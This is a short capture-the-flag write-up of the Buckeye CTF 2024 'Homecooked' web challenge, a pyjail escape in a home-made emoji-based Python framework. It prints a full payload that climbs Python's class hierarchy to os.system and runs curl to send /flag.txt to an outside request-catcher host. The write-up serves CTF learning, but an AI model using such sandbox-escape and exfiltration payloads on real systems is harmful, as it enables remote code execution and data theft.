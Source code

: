 ```yaml
---
title: Homecooked
description: Buckeye CTF 2024
author: overllama
date: 2024-09-30
categories: [Web]
---
```


### Description

I've been working on my own ASGI-complaint Python web framework. It's still in the early stages, but I think it's coming along nicely. I've set up a demo site for you to try it out. Can you find the flag?

homecooked.challs.pwnoh.io

File: [homecooked.zip](/assets/code/homecooked.zip)

### Solve

Starting to look through the code (and the actual site), you can see that it lets you run code in its home-made language with emojis. There's a whole grammar in lark file, which was super annoying to parse (curse CS 236 being useful). But the whole site ran on a template similar to flask, so the challenge was basically prompt injection.

I worked on this with LegoClones, since after I learned that it was pretty locked down in what it could run, it was a pyjail and I don't have a ton of experience there. Thankfully, lego knew what was going on. We used the grammar as implemented and the code injection section to print the flag with this string:

```py
🥢hex🥚__class__🥚__bases__🍎0🍏🥚__subclasses__🦀🦞🍎221🍏🦀🦞🥚_module🥚__builtins__🍎'__import__'🍏🦀'os'🦞🥚system🦀'curl http://lego.requestcatcher.com/$(cat /flag.txt)'🦞🥢
```

So kinda neat but also kinda annoying. The resource for solving the challenge was [this Hacktricks site](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)